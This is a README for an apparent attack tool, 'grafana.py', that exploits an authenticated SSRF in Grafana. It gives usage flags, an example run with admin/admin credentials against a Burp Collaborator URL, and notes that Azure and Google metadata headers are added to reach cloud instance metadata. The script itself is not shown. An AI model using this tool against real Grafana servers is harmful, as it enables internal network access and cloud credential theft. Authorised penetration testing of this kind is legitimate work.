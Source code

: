 # grafana-ssrf
Authenticated SSRF in Grafana.

Usage
---


```
usage: grafana.py [-h] [-s SESSION] [-u URL] [-H HOST] [-f FILE] [-U USERNAME]
                  [-P PASSWORD]

optional arguments:
  -h, --help            show this help message and exit
  -s SESSION, --session SESSION
                        Session Cookie Value
  -u URL, --url URL     URL of host to check will need http or https
  -H HOST, --host HOST  Host for Grafana
  -f FILE, --file FILE  File of URLS to check SSRF Against
  -U USERNAME, --username USERNAME
                        Username for Grafana
  -P PASSWORD, --password PASSWORD
                        Password for Grafana
```

Example
---

```
python3 grafana.py -U admin -P admin -u http://8t2s8yx5gh5nw0z9bd3atkoprgx6lv.burpcollaborator.net
Refreshed Sources
SSRF Source Updated
Status code:   200
Response body: <html><body>c7yzzb4zyj5v14wkpi2nxvzjigz</body></html>
Deleted Old SSRF Source
```

Notes
---

* Azure metadata header has been added to all SSRFS
* Google metadata header has been added to all SSRFS
* SSRF will not follow redirects no matter what so ensure url is direct.
